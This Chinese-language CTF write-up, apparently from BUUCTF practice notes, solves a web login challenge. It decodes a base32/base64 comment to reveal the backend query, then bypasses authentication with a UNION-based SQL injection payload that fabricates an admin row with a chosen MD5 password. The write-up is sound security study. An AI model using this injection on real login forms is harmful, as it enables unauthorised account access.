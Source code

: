 # 知识点：

# 1.sql语句猜测

# 2.base32，base64解码

# 3.脑洞

### 当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。

列如：

select * from admin1 where username='a'union select null,null,null;

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/E2C1F8F0EF9840E8BD1A25994473772Bclipboard.png)

select * from admin1 where username='a'union select null,'admin','123';

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/B7437672E79A4CFD88F2B7B38452DE4Fclipboard.png)

当把null替换为字符串，联合查询就会将替换的字符串查询出来





# 1.search.php存在注释字符串

```javascript
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

全是大写，推测时base32

Base32使用了ASCII编码中可打印的32个字符**(大写字母A-Z和数字2~7)**对任意字节数据进行编码

解码之后再base64解码即可得到：

```javascript
select * from admin1 where username = '$name'
```



推测需要注入username.



# 2.测试过滤

发现union/**/select没有过滤。

且存在三个字段

```javascript
a'union select null,null,null--+
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/DC5FFFAFDF64449C815E737676477EC7clipboard.png)

提示usrname错误，尝试是否有回显，发现过滤了括号()



# 3.推测后台代码为：

```javascript
<?php$row;
$pass=$_POST['pw'];
if($row['username']==’admin’){
if($row['password']==md5($pass)){ 
echo $flag; 
}else{ echo “wrong pass!”; 
}}
else{ echo “wrong user!”;}
```



# 4.此时推测应该不可以注入出数据，可以尝试联合查询的一个特性：

当查询的数据不存在的时候，联合查询就会构造一个虚拟的数据。



payload:

```javascript
name=0'union/**/select/**/0,'admin','202cb962ac59075b964b07152d234b70'--+&pw=123
```

202cb962ac59075b964b07152d234b70为123的MD5加密。联合查询查询的结果就为：

username:admin

password:202cb962ac59075b964b07152d234b70

此时即可登陆成功得到flag

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/F911556B559243D3805D10908BEB30F3clipboard.png)





